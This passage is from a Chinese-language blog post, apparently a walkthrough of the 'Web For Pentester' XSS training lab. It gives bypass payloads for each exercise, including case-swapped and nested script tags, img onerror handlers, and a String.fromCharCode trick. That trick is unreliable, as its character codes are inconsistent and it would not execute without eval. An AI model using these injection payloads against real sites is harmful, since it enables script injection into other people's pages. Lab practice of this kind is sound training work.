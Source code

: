```yaml
---
layout:     post
title:      "Web For Pentester - XSS Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
header-img: "img/Couchdb-RCE.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises
---
```



### XSS Example 1
直接输出无任何过滤：
** name=\<script>alert(/XSS/)\</script> **
### XSS Example 2
过滤掉了\<script>标签，通过大小写进行绕过：
** name=\<Script>alert(/XSS/)\</Script> **
### XSS Example 3
过滤了\<script>标签（包括大写），但只过滤了一次，通过嵌套标签来绕过filter表达式：
**name=\<s\<Script>cript>alert(/XSS/)\</sc\</Script>ript>**
### XSS Example 4
使用\<script>标签测试直接显示error，替换\<img>、\<svg>等标签测试成功：
**name=\<img src=1 onerror="alert(/XSS/)">**
### XSS Example 5
alert被过滤，但prompt、confirm函数可使用；这里同样可以使用String.fromCharCode来绕过
**name=\<img src=1 onerror="confirm(/XSS/)">**
> 绕过magic_quotes_gpc
> magic_quotes_gpc=ON是php中的安全设置，开启后会把一些特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\
> 比如：\<script>alert("xss");\</script>会转换为<script>alert(\"xss\");</script>,这样我们的xss就不生效了。
> 针对开启了magic_quotes_gpc的网站，我们可以通过javascript中的String.fromCharCode方法来绕过，我们可以把alert(/XSS/);转换为
> String.fromCharCode(97, 108, 101, 114, 116, 40, 47, 88, 83, 83, 47, 41)那么我们的XSS语句就变成了
> **\<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)\</script>** 
> String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串，在harkbar中的XSS功能中有这个功能可直接使用
### XSS Example 6
F12查看元素，发现输出在script标签中 *$a= "hacker";* ，那么直接闭合双引号就好
**name=XSS";alert($a);//**
### XSS Example 7
通过Example 6的方法发现双引号被HTML编码了，而且在$a=''处添加了单引号来申明变量内容